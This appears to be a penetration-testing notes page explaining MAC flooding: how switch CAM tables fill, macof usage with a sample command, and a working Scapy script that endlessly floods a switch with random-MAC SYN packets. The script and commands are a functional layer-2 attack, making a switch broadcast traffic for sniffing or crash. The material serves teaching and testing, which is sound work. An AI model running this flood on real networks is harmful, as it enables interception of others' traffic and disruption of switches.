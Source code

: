 # MAC Flood

## MAC Address/CAM Table Review

![](<../.gitbook/assets/image (293).png>)

• CAM Table stands for Content Addressable Memory

• The CAM Table stores information such as MAC addresses available on physical ports with their associated VLAN parameters

• CAM Tables have a fixed size

## Normal CAM Behavior

![](<../.gitbook/assets/image (277).png>)

![](<../.gitbook/assets/image (295).png>)

![](<../.gitbook/assets/image (276).png>)

## CAM Overflow

• Theoretical attack until May 1999&#x20;

• macof tool since May 1999 (about 100 lines of perl)

• Based on CAM Table’s limited size

![](<../.gitbook/assets/image (288).png>)

![](<../.gitbook/assets/image (280).png>)

#### Dsniff (macof) can generate 480,000 MAC entries on a switch per minute 8000/s\*60.

Assuming a perfect hash function the CAM table will total out at 128,000 (16,000 x 8) 131,052 to be exact Since hash isn’t perfect it actually takes 70 seconds to fill the CAM table.

#### Once table is full, traffic without a CAM entry floods on the VLAN, but NOT existing traffic with an existing CAM entry

![](<../.gitbook/assets/image (292).png>)

Syntax:

```
macof [-i interface] [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-n times]

-i   interface Specify the interface to send on.
-s   src Specify source IP address.
-d   dst Specify destination IP address.
-e   Specify target hardware address.
-x   sport Specify TCP source port.
-y   dport Specify TCP destination port.
-n   times Specify the number of packets to send
```

#### Macof can flood a switch with random MAC addresses. This is called MAC flooding. This fills in the switch’s CAM table, thus new MAC addresses can not be saved, and the switch starts to send all packets to all ports, so it starts to act as a hub, and thus we can monitor all traffic passing through it.

## Targeted Flooding

Macof can flood a switch with random MAC addresses destinated to 192.168.1.1.

```
macof -i eth1 -n 10
```

While conducting a pentest, this tool comes in handy while sniffing. Some switches don’t allow to spoof arp packets. This tool can be used in such situations to check if the switch is overloaded. Some switches behave like hubs, transmitting all source packets to all destinations. Then sniffing would be very easy. Some switches tend to crash & reboot also. Such kind of layer 2 stress testing can be done with this handy tool

## MAC flooding with scapy

```python
#! /usr/bin/python

nbpkts = 8192
iface = "eth0"

import sys
from scapy.all import sendpfast, Ether, IP, RandIP, RandMAC, TCP

print("Initializing...")

# We first build all packets...
pkts = []
for i in xrange(0, nbpkts):
  macaddr = str(RandMAC())
  # Quick-and-dirty way to ensure that the I/G remains unset
  macaddr = macaddr[:1] + "0" + macaddr[2:]
  # This packet structure mimics a TCP SYN sent to a HTTP server.
  # A random dst mac should also work, setting one fixed can be useful
  # to easily filter-out flood-related packets when capturing traffic.
  # You can use IPs valid for your range, but be cautious that if any
  # host is made to send some RST for instance its MAC address will be
  # registered by the switches.
  pkts.append(Ether(src=macaddr, dst="ff:ff:ff:ff:ff:ff")/
              IP(src=str(RandIP()), dst=str(RandIP()))/
              TCP(dport=80, flags="S", options=[('Timestamp', (0, 0))]))

print("Launching attack, press Ctrl+C to stop...")

# ...and then we send them in loop.
while True:
  # Adapt pps (Packets Per Second) to your needs. Running a complex
  # GNS3 topology on a low-end machine will take all the CPU causing
  # packet loss, pps will then need to be high to replay lost packets.
  # Given enough CPU, packet loss can remain low and pps can be lowered
  # too.
  sendpfast(pkts, iface=iface, file_cache=True, pps=5000, loop=999)

```
